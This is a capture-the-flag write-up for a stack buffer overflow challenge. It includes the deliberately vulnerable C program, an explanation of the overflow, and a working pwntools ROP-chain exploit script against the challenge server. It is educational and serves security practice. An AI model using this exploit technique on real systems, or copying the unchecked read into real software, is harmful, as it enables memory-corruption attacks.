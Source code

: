 ### r/WholesomeCopypasta 🩸 | 7 Solves 997 Points
```
Such inspiring pasta

Author: Jin Kai
```

`challenge.c`
```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>
#include <stdlib.h>

char* copypastas[] = {"mc_chicken.txt", "chameleon.txt", "bob.txt", "flag.txt"};

void print_file_contents(char* file_name) {
	FILE *f = fopen(file_name, "r");
	if (f == NULL) {
		perror("file does not exist");
		exit(0);
	}
	fseek(f, 0, SEEK_END);
	size_t sz = ftell(f);
	rewind(f);
	char* buf = calloc(sz, sizeof(char));
	fread(buf, sz, sizeof(char), f);
	fclose(f);
	printf("copypasta contents:\n%s", buf);
}

int main() {
	
	char filename[100];

	setbuf(stdin, 0);
	setbuf(stdout, 0);

	printf("list of available copypastas\n");
	for (int i = 0; i < 3; i++) {
		printf("%d. %s\n", i, copypastas[i]);
	}
	putchar(0xa);
	printf("input copypasta to read: ");
	size_t end = read(0, filename, 0x100);
	if (filename[end-1] = '\n')
		filename[end-1] = 0;


	if (strstr(filename, "flag") || strchr(filename, '/') || strchr(filename, '\\')) {
		puts("this copypasta is premium!");
		exit(0);
	}

	print_file_contents(filename);
}
```

`main()` grants us access to the `print_file_contents()` function which prints whatever is inserted as the file input. We know that `flag.txt` exists in the system, but we can't access it as a `strstr()` check prevents us from doing so!

So we start looking for vulnerabilities. At first the program might seem secure, but in reality there's a cheekily hidden buffer overflow.

```c
char filename[100];
size_t end = read(0, filename, 0x100);
```
In main()'s stack frame, `filename` is initialised to have only 100 characters. Yet the `read()` call takes in 256 characters!

![alt text](images/wholesome_checksec.png)

Running `checksec` tells us there's no canary, thus we can easily buffer overflow to overwrite the return address!

Now if we can have it call `print_file_contents("flag.txt")`, we can get our flag. To do this, we identify a `pop rdi; ret;` instruction in the program memory and first have our program return to that when `main()` ends. Following which, we use the address whereby `flag.txt` is stored in memory, being in the global `copypastas[]` variable to have the address of `flag.txt` popped into the `rdi` register.

We perform another `ret` gadget to [align our stack](https://stackoverflow.com/questions/4175281/what-does-it-mean-to-align-the-stack), and then the `print_file_contents()` function address! Since `PIE` is disabled, the function addresses and global variable addresses are not randomised and static, allowing for our payload to work!

To overflow the buffer however, we will also need to ensure `main()` returns smoothly; We do this by having our first 8 bytes be `bob.txt\x00` so that `print_file_contents("bob.txt")` is called and it won't trigger any errors, resulting into a smooth return to our rop-chain.

`solve.py`
```py
from pwn import *

# p = process('./challenge')
# gdb.attach(p, gdbscript='b *main+174')
p = remote("challs.nusgreyhats.org", 32835)

poprdi = 0x400c13 #: pop rdi ; ret
flagtxt = 0x400c59 #: flag.txt
printfile = 0x4009a7
pload = b'bob.txt\x00' + b'A'*(16*8) + p64(poprdi) + p64(flagtxt) + p64(poprdi+1) + p64(printfile)
p.recvuntil(b"input copypasta to read: ")
p.sendline(pload)
p.interactive()
```

![alt text](images/copypasta_solve.png)

`grey{r0p3d_1n_th3_flag!}`